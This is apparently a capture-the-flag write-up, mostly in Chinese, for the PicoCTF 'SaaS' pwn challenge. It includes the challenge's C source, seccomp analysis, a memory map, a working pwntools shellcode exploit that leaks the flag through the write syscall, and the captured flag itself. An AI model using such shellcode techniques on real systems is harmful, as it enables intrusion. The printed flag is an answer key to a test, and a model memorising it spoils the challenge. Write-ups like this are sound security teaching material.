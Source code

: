 ```yaml
---
title: PicoCTF - SaaS
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - SaaS

## Background
seccomp-tool

## Source code
:::spoiler Source Code
```cpp=
#include <errno.h>
#include <error.h>
#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <unistd.h>

#define SIZE 0x100

// http://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=xor+rax%2C+rax%0D%0Amov+rdi%2C+rsp%0D%0Aand+rdi%2C+0xfffffffffffff000%0D%0Asub+rdi%2C+0x2000%0D%0Amov+rcx%2C+0x600%0D%0Arep+stosq%0D%0Axor+rbx%2C+rbx%0D%0Axor+rcx%2C+rcx%0D%0Axor+rdx%2C+rdx%0D%0Axor+rsp%2C+rsp%0D%0Axor+rbp%2C+rbp%0D%0Axor+rsi%2C+rsi%0D%0Axor+rdi%2C+rdi%0D%0Axor+r8%2C+r8%0D%0Axor+r9%2C+r9%0D%0Axor+r10%2C+r10%0D%0Axor+r11%2C+r11%0D%0Axor+r12%2C+r12%0D%0Axor+r13%2C+r13%0D%0Axor+r14%2C+r14%0D%0Axor+r15%2C+r15%0D%0A&arch=x86-64&as_format=inline#assembly
#define HEADER "\x48\x31\xc0\x48\x89\xe7\x48\x81\xe7\x00\xf0\xff\xff\x48\x81\xef\x00\x20\x00\x00\x48\xc7\xc1\x00\x06\x00\x00\xf3\x48\xab\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xe4\x48\x31\xed\x48\x31\xf6\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"

#define FLAG_SIZE 64

char flag[FLAG_SIZE];

void load_flag() {
  int fd;
  if ((fd = open("flag.txt", O_RDONLY)) == -1)
    error(EXIT_FAILURE, errno, "open flag");
  if (read(fd, flag, FLAG_SIZE) == -1)
    error(EXIT_FAILURE, errno, "read flag");
  if (close(fd) == -1)
    error(EXIT_FAILURE, errno, "close flag");
}

void setup() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  if (ctx != NULL) {
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1,
      SCMP_A0(SCMP_CMP_EQ, STDOUT_FILENO));
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    ret |= seccomp_load(ctx);
  }
  seccomp_release(ctx);
  if (ctx == NULL || ret)
    error(EXIT_FAILURE, 0, "seccomp");
}

int main()
{
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  load_flag();
  puts("Welcome to Shellcode as a Service!");

  void* addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0);
  memcpy(addr, HEADER, sizeof(HEADER));
  read(0, addr + sizeof(HEADER) - 1, SIZE);

  setup();
  goto *addr;
}

```
:::

## Recon
這題算簡單，很適合新手打shell code，但不知道為啥很少人解，和之前計安的某一題很像但忘記在哪邊了，也有可能是在EOF的時候打的，關於seccomp可以看這篇[^seccomp-tools-note]
```bash
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0c0d78f23470e4613121a0d3bdc1cd5e43e49b32, not stripped
$ checksec chall
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/SaaS/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$ seccomp-tools dump ./chall
Welcome to Shellcode as a Service!
123
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x0000003c  if (A == exit) goto 0012
 0006: 0x15 0x05 0x00 0x000000e7  if (A == exit_group) goto 0012
 0007: 0x15 0x00 0x05 0x00000001  if (A != write) goto 0013
 0008: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # write(fd, buf, count)
 0009: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0013
 0010: 0x20 0x00 0x00 0x00000010  A = fd # write(fd, buf, count)
 0011: 0x15 0x00 0x01 0x00000001  if (A != 0x1) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```
1. 觀察source code發現有設定seccomp的保護，只開放write和exit，但在輸入之前已經先讀了flag，此時就可以直接想辦法call syswrite把東西印出來就完事了
2. 要注意libc的版本，我的local端原本是2.31但不知道為啥變成2.35，所以又花了一點時間用VM才解出來
3. 這一題難的地方在於一開始有一串shell code(HEADER)，經過online tool[^online-tool-assemble]可以知道它就是把stack上和register的東西全部清空，所以如果要找到flag所在的位址就需要撈一下memory，我的做法是直接把memory dump下來，然後string search(記得是little endian)，然後用offset算他和rip之間的相對位置

## Exploit - seccomp-tools / syswrite
算offset是這一題最煩的地方，以我的例子來說(記憶體區段如下)，flag是放在==0x000055e109602060==的地方，我執行shell code的地方是在==0x7fbb78c21000==，所以我先把0x00007f1d391e5000~0x00007f1d39215000的東西dump下來，發現在0x2e590的地方存的是==0x55e109400448==，和原本的0x000055e109602060差了一點，所以我先把後1.5bytes變成0(and operator)，然後加上offset(0x202060)，在依序把其他必要的register擺好就可以call function了
![](https://hackmd.io/_uploads/r1FxFRy23.png)


:::spoiler
```
0x000055e109400000 0x000055e109402000 0x0000000000000000 r-x /home/sbk/Downloads/SaaS/chall
0x000055e109601000 0x000055e109602000 0x0000000000001000 r-- /home/sbk/Downloads/SaaS/chall
0x000055e109602000 0x000055e109603000 0x0000000000002000 rw- /home/sbk/Downloads/SaaS/chall
0x00007fbb789cb000 0x00007fbb789ce000 0x0000000000000000 rw- 
0x00007fbb789ce000 0x00007fbb789f0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb789f0000 0x00007fbb78b68000 0x0000000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78b68000 0x00007fbb78bb6000 0x000000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bb6000 0x00007fbb78bba000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bba000 0x00007fbb78bbc000 0x00000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bbc000 0x00007fbb78bc0000 0x0000000000000000 rw- 
0x00007fbb78bc0000 0x00007fbb78bc2000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bc2000 0x00007fbb78bd1000 0x0000000000002000 r-x /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bd1000 0x00007fbb78bdf000 0x0000000000011000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bdf000 0x00007fbb78be0000 0x000000000001f000 --- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be0000 0x00007fbb78be1000 0x000000000001f000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be1000 0x00007fbb78be2000 0x0000000000020000 rw- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be2000 0x00007fbb78be4000 0x0000000000000000 rw- 
0x00007fbb78bf5000 0x00007fbb78bf6000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78bf6000 0x00007fbb78c19000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c19000 0x00007fbb78c21000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c21000 0x00007fbb78c22000 0x0000000000000000 rwx 
0x00007fbb78c22000 0x00007fbb78c23000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c23000 0x00007fbb78c24000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c24000 0x00007fbb78c25000 0x0000000000000000 rw- 
0x00007ffe014db000 0x00007ffe014fd000 0x0000000000000000 rw- [stack]
0x00007ffe0150d000 0x00007ffe01511000 0x0000000000000000 r-- [vvar]
0x00007ffe01511000 0x00007ffe01513000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```
:::
```python!
from pwn import *

# r = process('./chall')
r = remote('mars.picoctf.net', 31021)
context.arch = 'amd64'
r.recvline()

# exe = ELF('./chall')

payload = asm('''
    lea rax, [rip-0x52-0x2c000+0x2e9f0]
    mov rsi, QWORD PTR [rax]
    and rsi, 0xfffffffffffff000
    add rsi, 0x202060
    mov rdi, 1
    mov rdx, 0x40
    mov rax, 1
    syscall
''')
# raw_input()
r.sendline(payload)


r.interactive()
```

```bash!
$ python exp.py
[+] Opening connection to mars.picoctf.net on port 31021: Done
[*] Switching to interactive mode
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

Flag: `picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}`

## Reference
[^seccomp-tools-note]:[Simple PWN - 0x010(seccomp/Lab - rop2win)](https://hackmd.io/@SBK6401/H1NX6Bloj)
[^online-tool-assemble]:[Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm)